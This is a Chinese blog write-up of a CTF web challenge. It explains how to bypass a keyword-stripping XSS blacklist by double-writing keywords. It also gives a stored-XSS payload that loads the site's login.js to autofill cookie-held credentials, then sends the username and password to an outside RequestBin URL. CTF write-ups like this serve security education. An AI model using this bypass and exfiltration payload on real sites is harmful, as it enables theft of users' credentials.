

<!--yml
category: 未分类
date: 2022-04-26 14:37:38
-->

# BUUCTF__[GWCTF 2019]mypassword_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/116276324](https://blog.csdn.net/TM_1024/article/details/116276324)

## 题解

*   开局像极了注入，但却是个XSS。
*   第一步信息收集，没有找到直接的提示或者后端源码。但是注册登录上去在`feedback.php` 有一个输入反馈，并且在页面存在注释。

```
 if(is_array($feedback)){
				echo "<script>alert('反馈不合法');</script>";
				return false;
			}
			$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
			foreach ($blacklist as $val) {
		        while(true){
		            if(stripos($feedback,$val) !== false){
		                $feedback = str_ireplace($val,"",$feedback);
		            }else{
		                break;
		            }
		        }
		    } 
```

*   简单的关键字置换为空，注意 `str_ireplace`函数，该函数单次匹配递归匹配，但它关键字是一个数组，遍历数组，每次一个关键字，那么就能通过简单的双写关键字绕过，但是不能为同一个关键字。比如简单的`<scriphostt>alert(1)</scriphostt>`，点击List列表中编号就能弹窗。由被过滤的关键字都是XSS常用的来反推可能是个XSS题目。
*   第二点，利用XSS来干啥？
*   容易忽略一个地方，在登录页面中的`/js/login.js`

```
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
} 
```

*   代码会把cookie中的username和password填进当前表单
*   如果我们写一个页面，页面中有表单，再调用这个js文件，cookie中的数据被填入表单，再用js获取页面表单内容，发送请求带出。就能得到管理员cookie。
*   poc，提交反馈

```
<inpcookieut type="text" name="username"></inpcookieut>
<inpcookieut type="text" name="password"></inpcookieut>
<scricookiept scookierc="./js/login.js"></scricookiept>
<scricookiept>
	var uname = documcookieent.getElemcookieentsByName("username")[0].value;
	var passwd = documcookieent.getElemcookieentsByName("password")[0].value;
	var res = uname + " " + passwd;
	documcookieent.locacookietion="http://http.requestbin.buuoj.cn/*/?a="+res;
</scricookiept> 
```

*   先访问`http://http.requestbin.buuoj.cn/`点击 `Create a RequestBin`获取一个链接，将poc中的`http://http.requestbin.buuoj.cn/*/` 中的*改为自己的标识符就行。过一会刷新。
    